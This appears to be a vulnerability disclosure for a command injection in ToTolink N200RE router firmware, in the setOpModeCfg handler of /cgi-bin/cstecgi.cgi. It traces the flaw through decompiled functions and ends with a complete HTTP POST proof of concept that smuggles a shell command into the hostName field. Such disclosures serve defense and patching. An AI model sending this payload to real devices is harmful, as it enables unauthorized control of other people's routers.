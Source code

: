 # ToTolink N200RE V9.3.5u.5812-B20200414 setOpModeCfg command injection

Vulnerability description: ToTolink N200RE V9.3.5u.5812-B20200414 was found to have a command injection at /cgi-bin/cstecgi.cgi through hostname parameters.

Scope of vulnerability impact

1.V9.3.5u.6095_B20200916

2.V9.3.5u.6139_B20201216

![1.png](img/1.jpg)

Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

### 1.hostname

Locate the key code in function sub-41A0F8 through the doSystem danger function (as shown in the figure below), and the function call relationship of sub-41A0F8 is sub_420000()-->sub_41F494()-->sub_41A0F8()

![1.png](img/2.png)

By reading the code of the sub-41A0F8() function, we can know that firstly, proto cannot be 0, 3, 4, or 6, and secondly, hostname cannot be empty.

![1.png](img/3.png)

#### Payload

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 172.16.7.140
Content-Length: 101
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.7.140
Referer: http://172.16.7.140/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl" : "setOpModeCfg",
"proto" : "8",
"switchOpMode" : "1",
"hostName" : "';ls -al ../ ;'"}
```

#### Demo

![1.png](img/4.png)
